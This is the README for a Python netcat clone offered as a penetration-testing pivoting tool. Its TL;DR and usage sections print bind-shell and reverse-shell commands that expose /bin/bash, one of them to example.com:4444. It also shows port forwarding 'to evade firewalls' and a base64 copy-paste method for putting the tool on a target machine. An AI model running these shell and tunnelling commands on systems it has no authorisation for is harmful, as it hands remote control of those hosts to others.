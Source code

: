 # netcat

[![](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)
[![PyPI](https://img.shields.io/pypi/v/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Status](https://img.shields.io/pypi/status/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Format](https://img.shields.io/pypi/format/netcat)](https://pypi.org/project/netcat/)
[![PyPI - Implementation](https://img.shields.io/pypi/implementation/netcat)](https://pypi.org/project/netcat/)
[![PyPI - License](https://img.shields.io/pypi/l/netcat)](https://pypi.org/project/netcat/)

[![Build Status](https://github.com/cytopia/netcat/workflows/linting/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=linting)
[![Build Status](https://github.com/cytopia/netcat/workflows/building/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=building)
[![Build Status](https://github.com/cytopia/netcat/workflows/testing/badge.svg)](https://github.com/cytopia/netcat/actions?workflow=testing)


Dependency-less Python 2 and Python 3 compatible implementation of netcat which works on 32bit and 64bit systems to easily pivot your target.

**Motivation**

To have a single tool for older, newer, 32bit and 64bit machines with relevant options (`-e`. `-L` and `-R`) to create bind shells, local and remote port-forwards.


**Todo**

The options `e`, `-n`, `-L`, and `-R` are still under development. See [Usage](#computer-usage) for other available options.


## :tada: Install
```bash
pip install netcat
```


## :coffee: TL;DR

#### Copy to target
```bash
# Copy base64 data to clipboard from where you have internet access
curl https://raw.githubusercontent.com/cytopia/netcat/master/bin/netcat.py | base64

# Paste it on the target machine
echo "<BASE64 STRING>" | base64 -d > netcat.py
chmod +x netcat.py
```
#### Summon shells
```bash
# bind shell
netcat.py -l -e '/bin/bash' 8080
```
```bash
# reverse shell
netcat.py -e '/bin/bash' example.com 4444
```
#### Port-forwarding without SSH
```bash
# Make local port available to public interface locally
netcat.py -L 127.0.0.1:3306 192.168.0.1 3306
```
```bash
# Remote port-forwarding to evade firewalls
netcat.py -R 127.0.0.1:3306 example.com 4444
```


## :computer: Usage
```
usage: netcat.py [-Cnuv] [-e cmd] hostname port
       netcat.py [-Cnuv] [-e cmd] -l [hostname] port
       netcat.py [-Cnuv] -L addr:port [hostname] port
       netcat.py [-Cnuv] -R addr:port hostname port
       netcat.py -V, --version
       netcat.py -h, --help


Netcat implementation in Python with connect, listen and forward mode.

positional arguments:
  hostname              Address to listen, forward or connect to
  port                  Port to listen, forward or connect to

mode arguments:
  -l, --listen          Listen mode: Enable listen mode for inbound connects
  -L addr:port, --local addr:port
                        Local forward mode: Specify local <addr>:<port> to which traffic
                        should be forwarded to.
                        Netcat will listen locally (specified by hostname and port) and
                        forward all traffic to the specified value for -L/--local.
  -R addr:port, --remote addr:port
                        Remote forward mode: Specify local <addr>:<port> from which traffic
                        should be forwarded from.
                        Netcat will connect remotely (specified by hostname and port) and
                        for ward all traffic from the specified value for -R/--remote.

optional arguments:
  -e cmd, --exec cmd    Execute shell command. Only works with connect or listen mode.
  -C, --crlf            Send CRLF as line-endings (default: LF)
  -n, --nodns           Do not resolve DNS
  -u, --udp             UDP mode
  -v, --verbose         Be verbose and print info to stderr. Use -vv or -vvv for more verbosity.

misc arguments:
  -h, --help            Show this help message and exit
  -V, --version         Show version information and exit

examples:

  Create bind shell
    netcat.py -l -e '/bin/bash' 8080

  Create reverse shell
    netcat.py -e '/bin/bash' example.com 4444

  Local forward: Make localhost port available to another interface
    netcat.py -L 127.0.0.1:3306 192.168.0.1 3306

  Remote forward: Forward local port to remote server
    netcat.py -R 127.0.0.1:3306 example.com 4444
```


## :octocat: Contributing

See **[Contributing guidelines](CONTRIBUTING.md)** to help to improve this project.


## :lock: [cytopia](https://github.com/cytopia) sec tools

| Tool             | Category             | Language   | Description |
|------------------|----------------------|------------|-------------|
| [smtp-user-enum] | Enumeration          | Python 2+3 | SMTP users enumerator |
| [urlbuster]      | Enumeration          | Python 2+3 | Mutable web directory fuzzer |
| [netcat]         | Pivoting             | Python 2+3 | Cross-platform netcat |
| [badchars]       | Reverse Engineering  | Python 2+3 | Badchar generator |
| [fuzza]          | Reverse Engineering  | Python 2+3 | TCP fuzzing tool |

[netcat]: https://github.com/cytopia/netcat
[smtp-user-enum]: https://github.com/cytopia/smtp-user-enum
[urlbuster]: https://github.com/cytopia/urlbuster
[badchars]: https://github.com/cytopia/badchars
[fuzza]: https://github.com/cytopia/fuzza


## :exclamation: Disclaimer

This tool may be used for legal purposes only. Users take full responsibility for any actions performed using this tool. The author accepts no liability for damage caused by this tool. If these terms are not acceptable to you, then do not use this tool.


## :page_facing_up: License

**[MIT License](LICENSE.txt)**

Copyright (c) 2020 **[cytopia](https://github.com/cytopia)**
